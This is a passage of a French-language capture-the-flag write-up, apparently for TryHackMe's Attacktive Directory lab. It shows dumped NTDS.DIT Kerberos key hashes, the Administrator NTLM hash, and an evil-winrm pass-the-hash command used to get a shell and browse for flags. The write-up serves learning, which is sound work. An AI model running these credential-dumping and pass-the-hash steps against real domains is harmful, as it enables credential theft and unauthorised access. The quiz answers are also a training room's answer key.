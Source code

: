 ```bash
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:be69fd490d3d11c8ffc0e56a6c6ed09004073e7342563fbd6966fb34f8a4c360
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:c2caf5ed2112c3617f3b33580ea8a44b
ATTACKTIVEDIREC$:des-cbc-md5:3208b3b0eaa79edc
[*] Cleaning up... 
```

**What method allowed us to dump NTDS.DIT?**

D'après les résultat de notre dump la méthode utilisée est : DRSUAPI    

**What is the Administrators NTLM hash?**

Le hash NTLM de admonistrator est : 0e0363213e37b94221497260b0bcb4fc    

**What method of attack could allow us to authenticate as the user without the password?** 

Il existe une methode qui permet de s'identifier que avec le hash.
Cette méthode s'appel : Pass The Hash    

**Using a tool called Evil-WinRM what option will allow us to use a hash?**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ evil-winrm -i 10.10.87.247 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

L'option -H nous permet d'utiliser un hash.    

La réponse est : -H

## Task 8 Flag Submission Flag Submission Panel ##

**svc-admin**

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\..
*Evil-WinRM* PS C:\Users> cd svc-admin
*Evil-WinRM* PS C:\Users\svc-admin> cd Desktop
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> dir


    Directory: C:\Users\svc-admin\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt
```